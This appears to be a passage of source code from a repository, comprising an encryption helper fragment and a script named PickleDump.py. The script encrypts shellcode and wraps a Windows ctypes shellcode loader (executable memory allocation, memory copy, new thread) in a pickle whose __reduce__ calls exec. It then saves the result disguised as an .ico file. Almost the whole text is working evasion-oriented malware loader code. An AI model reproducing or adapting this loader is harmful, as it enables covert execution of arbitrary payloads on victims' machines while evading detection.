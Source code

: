 ```python
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))
    with open('Encrypt_test.ico','w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_test.ico,加密key={}', format(key))
    return key
```



#### PickleDump.py	

```python
import pickle
from encrypt import EncryptTXT,EncryptICO

key = EncryptTXT('shellcode.txt')
shellcode="""
import ctypes
from cryptography.fernet import Fernet

f= open('Encrypt_shellcode.txt', 'rb')
shellcode= f.read()
key= {0}
f_obj= Fernet(key)
shellcode= f_obj.decrypt(shellcode)
shellcode= bytearray(shellcode)

ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
""".format(key)


class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

if __name__ == '__main__':
    ret = pickle.dumps(A())
    with open("test.ico", 'wb')as img:
        img.write(ret)
    key = EncryptICO('test.ico') #对test.ico
    print(key)
```
